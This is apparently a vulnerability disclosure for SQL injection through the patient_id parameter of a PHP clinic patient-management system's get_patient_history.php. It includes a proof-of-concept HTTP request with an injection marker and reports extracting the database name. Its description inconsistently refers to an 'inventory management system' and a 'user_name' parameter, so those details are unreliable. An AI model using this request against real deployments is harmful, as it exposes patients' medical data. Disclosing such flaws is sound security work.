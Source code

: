 ## Clinic's Patient Management System has SQL injection vulnerability

## supplier
https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
## Vulnerability file
/pms/ajax/get_patient_history.php
## describe
An unrestricted SQL injection attack exists in an inventory management system. The parameters that can be controlled are as follows: patient_id. This function executes the user_name parameter into the SQL statement without any restrictions. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.
## code analysis
The patient_id parameter in get_patient_history.php is controlled and is directly carried into the SQL statement for execution, resulting in SQL injection.

<img width="974" alt="image" src="https://github.com/user-attachments/assets/c5131cc5-8d23-46b3-98e2-7c750669b252">


Injection via parameter patient_id
POC
```
GET /pms/ajax/get_patient_history.php?patient_id=1* HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

Get the database name: pms_db
<img width="960" alt="image" src="https://github.com/user-attachments/assets/4d8cce21-8f26-4a00-ab37-433209a2fde0">

<img width="897" alt="image" src="https://github.com/user-attachments/assets/53abdeed-94bf-4504-8550-e7672f4fc067">









